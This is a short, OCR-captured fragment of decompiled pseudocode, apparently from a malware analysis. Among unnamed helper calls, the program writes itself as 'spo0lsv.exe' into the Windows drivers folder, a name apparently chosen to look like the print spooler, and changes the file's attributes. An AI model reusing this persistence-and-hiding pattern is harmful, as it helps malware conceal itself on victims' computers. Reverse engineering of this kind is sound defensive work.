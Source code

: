 `   sub_4041B4(v50, v88);`

`   sub_40412C(&v85);`

`   sub_40416C(5, 1);`

`   sub_4041B4(v30, v85);`

`   sub_40412C(&v87);`

`   v32 = sub_4041B4(v31, v85);`

`   sub_40416C(v32, 1);`

`   v84 = sub_405760();`

`   v57 = __readfsdword(0);`

`   __writefsdword(0, (unsigned int)&v57);`

`   sub_402AD8(v33, v87, v57, &loc_40857A, &savedregs);`

`   byte_40E00C = 2;`

`   sub_402868();`

`   sub_402614();`

`   ((void (*)(void))sub_403ECC)();`

`   sub_40412C(&v67);`

`   sub_404260(v34, v67);`

`   sub_402B88();`

`   sub_402614();`

`   sub_402C48();`

`   sub_402614();`

`   __writefsdword(0, v57);`

`   sub_407B68();`

`   if ( !(unsigned __int8)sub_405458() )`

`   {`

`     sub_4053AC(128);`

`     sub_403F8C(v35, 3, "spo0lsv.exe", "drivers\\", v66);`

`     v36 = (const CHAR *)sub_4040CC();`

`     SetFileAttributesA(v36, v56);`

`     Sleep(1u);`

`     sub_4053AC(v57);`

`     sub_403F8C(v37, 3, "spo0lsv.exe", "drivers\\", uCmdShow);`

`     v38 = (const CHAR *)sub_4040CC();`

